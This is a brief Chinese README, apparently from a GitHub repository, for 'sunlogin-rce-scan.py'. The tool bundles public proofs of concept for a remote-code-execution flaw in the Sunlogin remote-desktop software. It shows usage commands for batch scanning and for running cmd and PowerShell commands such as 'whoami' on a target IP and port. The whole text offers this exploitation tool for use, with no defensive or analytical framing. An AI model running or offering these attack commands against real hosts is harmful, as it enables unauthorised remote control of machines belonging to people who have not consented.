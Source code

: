 # 向日葵批量扫描利用工具

集成了已开放的poc 可进行批量扫描或cmd powershell命令执行

批量扫描

```
py -3 sunlogin-rce-scan.py 
```

cmd命令执行

```
py -3 sunlogin-rce-scan.py -i 22.22.2.13 -p 56227 -c whoami
```

powershell命令执行

```
py -3 sunlogin-rce-scan.py -i 22.22.2.13 -p 56227 -s whoami
```


